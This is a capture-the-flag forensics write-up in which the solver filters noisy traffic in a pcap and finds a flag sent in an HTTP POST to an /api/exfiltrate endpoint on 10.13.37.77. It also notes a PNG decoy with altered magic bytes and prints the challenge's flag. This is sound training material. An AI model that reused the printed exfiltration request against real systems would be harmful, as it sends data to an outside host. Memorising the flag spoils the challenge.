



# 04 - Filter the Noise, Find the Gold

**Category:** Digital Forensics
**Platform:** cap26ctf.xyz
**Environment:** Kali Linux VM (Proxmox VE), Wireshark
**Flag:** `CAP26{f1lt3r_th3_n01s3_f1nd_th3_g0ld}`

## Provided files

- `investigation.pcap` — a packet capture to investigate.
- `evidence.dat` — a file recovered alongside the capture.

## Step 1 — Spotting the noise

A quick look at the live connection list on the Kali VM showed a huge number of
short-lived, near-identical connections from `192.168.1.50`, almost all exactly
84 bytes, repeated over and over on sequential source ports. One connection stood
out from the pattern at 134 bytes — noticeably larger than the surrounding
84-byte noise.



That size anomaly was the signal to filter on: everything else was noise
padding out the capture, and the one oversized exchange was worth following.

## Step 2 — Following the TCP stream

Opening `investigation.pcap` in Wireshark and using **Follow → TCP Stream** on
the matching stream (`tcp.stream eq 37`) revealed a single HTTP request:

```
POST /api/exfiltrate HTTP/1.1
Host: 10.13.37.77

data=CAP26{f1lt3r_th3_n01s3_f1nd_th3_g0ld}
```



The flag was sitting in plain text in the POST body of a request to
`/api/exfiltrate` — a straightforward data-exfiltration pattern once the one
oversized connection was isolated from the surrounding padding traffic.

## Step 3 — Cross-checking evidence.dat

Alongside the pcap, `evidence.dat` was opened in a hex editor to check whether it
was really a valid image file, since its name and the challenge's forensics
framing suggested it might be a PNG carrying a hidden payload. The hex dump
starts with `89 00 00 00 0D 0A 1A 0A` — the second byte of a real PNG signature
should be the ASCII characters `PNG` (`50 4E 47`), not `00 00 00`, so the file's
magic bytes had been corrupted or deliberately altered, and the associated
viewer correctly flagged it as "Not a valid image".



This confirmed `evidence.dat` was a red herring / corrupted-header decoy rather
than the source of the flag — the real exfiltrated data was in the pcap's HTTP
traffic, not hidden inside this file's PNG chunks.

## Flag

```
CAP26{f1lt3r_th3_n01s3_f1nd_th3_g0ld}
```
